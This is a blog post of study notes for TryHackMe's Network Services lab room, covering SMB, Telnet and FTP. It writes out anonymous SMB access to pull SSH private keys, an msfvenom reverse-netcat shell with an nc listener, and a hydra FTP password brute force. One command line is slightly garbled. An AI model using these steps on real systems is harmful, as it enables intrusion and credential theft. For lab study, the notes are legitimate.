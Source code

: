 ```yaml
---
id: 5378
title: TryHackMe Network Services Room Notes
author: Mr Ash
type: "revision"
guid: https://mrash.co/?p=5378
url: "/?p=5378"
primary_accent:
- '#004CFF'
secondary_accent:
- '#FF9D00'
---
```


Are you going through TryHackMe’s Network Services 1 Room? Need help taking notes? I got you covered. Here are my Network Services 1 room notes from TryHackMe, use them as much as you need!

*Disclaimer, this is written in shorthand format, meaning, full sentences and proper grammar are not always used. For writeups, see [SMB Part 1](https://mrash.co/tryhackme-network-services-walkthrough-smb-part-1-3/), for help with Linux, see [Quick Start Guide](https://mrash.co/linux-quick-start-guide/).*

## SMB: Understanding, Enumerating, Exploiting

Server Message Block (SMB) Protocol: client/server comms for file/printer/serial ports/others for MS Windows.

- Type: response-request protocol, transmits multiple messages to est connection.
- Connections: TCP/IP (NetBIOS, NetBEUI, IPX/SPX).
- SMB Commands (SMBs): if est connection, share files etc.
- Support: Samba (open source server) by UNIX.

<div class="elementor elementor-5269" data-elementor-id="5269" data-elementor-type="section"><div class="elementor-section-wrap"> <section class="elementor-section elementor-top-section elementor-element elementor-element-650fe30 elementor-section-boxed elementor-section-height-default elementor-section-height-default" data-element_type="section" data-id="650fe30" data-particle-mobile-disabled="false" data-particle_enable="false" data-settings="{"ekit_has_onepagescroll_dot":"yes"}"><div class="elementor-container elementor-column-gap-default"><div class="elementor-row"><div class="elementor-column elementor-col-100 elementor-top-column elementor-element elementor-element-19d1b1d" data-element_type="column" data-id="19d1b1d"><div class="elementor-column-wrap elementor-element-populated"><div class="elementor-widget-wrap"> <section class="elementor-section elementor-inner-section elementor-element elementor-element-75001c1 elementor-section-boxed elementor-section-height-default elementor-section-height-default" data-element_type="section" data-id="75001c1" data-particle-mobile-disabled="false" data-particle_enable="false" data-settings="{"ekit_has_onepagescroll_dot":"yes"}"><div class="elementor-container elementor-column-gap-default"><div class="elementor-row"><div class="elementor-column elementor-col-100 elementor-inner-column elementor-element elementor-element-2d39fa8" data-element_type="column" data-id="2d39fa8" data-settings="{"background_background":"gradient"}"><div class="elementor-column-wrap elementor-element-populated"><div class="elementor-background-overlay"></div><div class="elementor-widget-wrap"><div class="elementor-element elementor-element-87a745b elementor-position-right elementor-vertical-align-middle elementor-view-default elementor-mobile-position-top elementor-widget elementor-widget-icon-box" data-element_type="widget" data-id="87a745b" data-settings="{"ekit_we_effect_on":"none"}" data-widget_type="icon-box.default"><div class="elementor-widget-container"><div class="elementor-icon-box-wrapper"><div class="elementor-icon-box-icon"> <span class="elementor-icon elementor-animation-">  </span> </div><div class="elementor-icon-box-content"> <span> **Free Checklist:** Hacker's Learning Path </span>

 Offline checklist to track your learning path, become a great hacker and stay on task.

 </div> </div> </div> </div><div class="elementor-element elementor-element-96a5f87 elementor-tablet-button-align-stretch elementor-button-align-stretch elementor-widget elementor-widget-form" data-element_type="widget" data-id="96a5f87" data-settings="{"button_width":"25","step_next_label":"Next","step_previous_label":"Previous","step_type":"number_text","step_icon_shape":"circle","ekit_we_effect_on":"none"}" data-widget_type="form.default"><div class="elementor-widget-container"> <form class="elementor-form" method="post" name="CTA - Hackers Checklist"> <input name="post_id" type="hidden" value="5269"></input> <input name="form_id" type="hidden" value="96a5f87"></input> <input name="referer_title" type="hidden" value=""></input><div class="elementor-form-fields-wrapper elementor-labels-"><div class="elementor-field-type-email elementor-field-group elementor-column elementor-field-group-email elementor-col-75 elementor-md-80 elementor-field-required"> <label class="elementor-field-label elementor-screen-only" for="form-field-email"> Email </label> <input aria-required="true" class="elementor-field elementor-size-xs  elementor-field-textual" id="form-field-email" name="form_fields[email]" placeholder="Enter Email Here" required="required" size="1" type="email"></input> </div><div class="elementor-field-group elementor-column elementor-field-type-submit elementor-col-25 e-form__buttons"> <button class="elementor-button elementor-size-xs" type="submit"> <span> <span class=" elementor-button-icon"> </span> <span class="elementor-button-text">Get</span> </span> </button> </div> </div> </form> </div> </div> </div> </div> </div> </div> </div> </section> </div> </div> </div> </div> </div> </section> </div> </div>Enumeration: process of gathering info, `enum4linux`.

- Install (ubuntu): `enum4linux`
    1. `git clone <github URL>`
    2. `mv enum4linux.pl /usr/bin`
    3. `apt install smbclient`
- Access: `smbclient`
    1. `smbclient -U Anonymous //<ip>/profiles`
    2. `ls`, `more "Working...txt"`
    3. `cd .ssh`, `ls`, `mget id_rsa*`
    4. `chmod 600 id_rsa cactus@<ip>`

## Telnet: Understanding, Enumerating, Exploiting

Telnet: app protocol, connects/executes commands, non-secure clear text, replaced by ssh e.g. `telnet <ip> <port>`.

- Enumeration: dosen’t ‘jump out’ at us.
    1. `sudo nmap -vv -T4 -p- <ip>`
    2. `nmap -vv -A -p 8012 <ip>`
    3. `s****** b******`
- CVE (Common Vuln and Exposures): listed public sec flaws, with IDs.
- Shell: code/program to gain code/command execution.
- Reverse Shell: target comms back to attack device, target has listening port.
    1. `telnet <ip> <port>` | `CTRL + ]` closes telnet.
    2. `sudo tcpdump ip proto \\\\icmp -i tun0`
    3. `.RUN ping <my ip> -c 1`
    4. `msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R`
    5. `nc -lvp 4444`
    6. `.RUN <payload>`

## FTP: Understanding, Enumerating, Exploiting

File Transfer Protocol, allows remote (client/server) files transfers.

- Two Channels: 1) command/control, transmits commands/replies, 2) data, transfers actual data.
- Modes:
    - Active: client opens/listens, server actively connects.
    - Passive: server opens/listens, client connects.
- Enumeration
    1. `nmap -vv -T4 -Pn -p- <ip>` &amp; `nmap -vv -A -p 21 <ip>`
    2. `ftp <ip>`, `anonymous`, `ls`, `more PUBLIC_NOTICE.txt`
- Exploit: command/data channels unencrypted
    1. `hydra -t 4 -l mike -P /usr/share/wordlists/rockyou.txt.gz -vV <ip> ftp`

This is Day 42 of [\#100DaysOfHacking](https://mrash.co/100daysofhacking/), subscribe to my [newsletter](https://go.mrash.co/newsletter) to see the CyberSec journey! If you like, follow the [Learning Path](https://mrash.co/learning-path-for-beginner-hacker/) for yourself, happy hacking.